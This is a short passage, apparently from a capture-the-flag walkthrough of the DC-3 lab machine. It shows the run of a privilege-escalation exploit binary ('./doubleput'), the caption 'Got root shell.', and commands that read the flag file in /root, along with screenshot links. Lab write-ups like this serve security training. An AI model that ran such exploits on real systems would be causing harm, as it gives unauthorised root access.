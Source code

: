 ./doubleput

id

![DC-3%2014b1155f74fb46a08121a9a9500e8df1/Untitled%2017.png](DC-3%2014b1155f74fb46a08121a9a9500e8df1/Untitled%2017.png)

*Got root shell.*

cd /root 

ls

cat the-flag.txt

![DC-3%2014b1155f74fb46a08121a9a9500e8df1/Untitled%2018.png](DC-3%2014b1155f74fb46a08121a9a9500e8df1/Untitled%2018.png)
